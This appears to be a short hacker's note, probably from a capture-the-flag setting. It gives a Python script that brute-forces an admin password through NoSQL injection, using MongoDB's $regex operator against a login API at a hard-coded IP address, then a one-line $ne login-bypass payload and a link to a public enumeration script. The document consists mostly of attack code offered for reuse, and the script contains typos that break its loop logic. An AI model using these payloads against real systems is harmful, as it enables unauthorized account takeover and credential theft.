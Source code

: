 ``` py
#!/bin/usr/python

import requests
import string
#import urllib.parse

url = 'http://46.101.23.157:30374/api/login'
flag = ""   

# Sexy way to change users
user = 'admin'


# When 302 redirect is seen, we restart our loop
restart = True

while restart:
    retstart = False

    # Regex unfriendly characters: "+" "*" "." "?" "|"
    for i in string.ascii_letters + string.digits + "`~!@#$%^&()-_{}=[]<>;:'":
        payload = flag + i
        post_data = {'username': user, 'password[$regex]' : "^" + payload + ".*"}
        r = requests.post(url, data=post_data, allow_redirects=False)
        print(payload)

        if "Login Successful" in r.text: # To be changed according to the login fucntion reponse of webapp 
            
            restart = True
            flag = payload

            if i == "$":
                print ("\n[+] User: " + user + "\n[+] Password: " + flag[:-1])

                exit(0)
            break
```

Script to bruteforce nosqli password . Make changes in code accroding to response.

```
username[$ne]=toto&password[$ne]=cd
```
*Login bypass*

https://hackersarena.vulnfreak,org/

Public Scripts:
https://raw.githubusercontent.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration/master/nosqli-user-pass-enum.py
